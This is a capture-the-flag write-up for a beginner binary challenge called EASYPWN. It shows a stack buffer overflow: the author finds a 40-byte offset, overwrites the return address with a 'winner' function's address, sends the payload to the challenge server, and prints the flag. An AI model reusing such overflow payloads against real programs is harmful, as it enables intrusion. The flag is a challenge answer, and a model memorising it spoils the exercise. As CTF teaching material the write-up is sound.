 # EASYPWN 

A nice introduction to pwn. Download the files to find the vulnerability, and exploit the host below to get the real flag.

`nc io.ept.gg 30004`

[Download](easypwn.tar.gz)

# Writeup

Tried to run it locally and run a whole lot of A's as I guess this is a standard buffer overflow attack:

```bash
─$ python -c 'print("A"*45)' | ./easypwn
Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python -c 'print("A"*45)' | 
zsh: segmentation fault  ./easypwn
```

`dmesg` shows 

```log
[2846036.186229] easypwn[3901999]: segfault at 4141414141 ip 0000004141414141 sp 00007ffe72b935c0 error 14
```

I finetune and figures out that 40 A's is the magic number:

```bash
python -c 'print("A"*40 + "ABCDEF")' | ./easypwn
```

`dmesg` now shows this

```log
[2822529.208171] easypwn[3525302]: segfault at 464544434241 ip 0000464544434241 sp 00007ffff38f76b0 error 14
```

`464544434241` == `ABCDEF`

So now I can overwrite the RIP register. And I need to figure out the base address of this program. Running `checksec` shows that PIE is disabled so it starts at `0x400000`

![checksec](ss-checksec.png)

Ghidra also starts there so it will be easy to see the addresses of functions I can jump to by overwriting the return address. And by chance there is a function called `winner` at address `0x401236` that prints the flag.

![winner](ss-winner.png)

So adding that after 40 A's I get the flag!

```bash
─$ python -c 'print("A"*40 + b"\x36\x12\x40".decode());' | nc io.ept.gg 30004

Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```

# Flag

```
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```

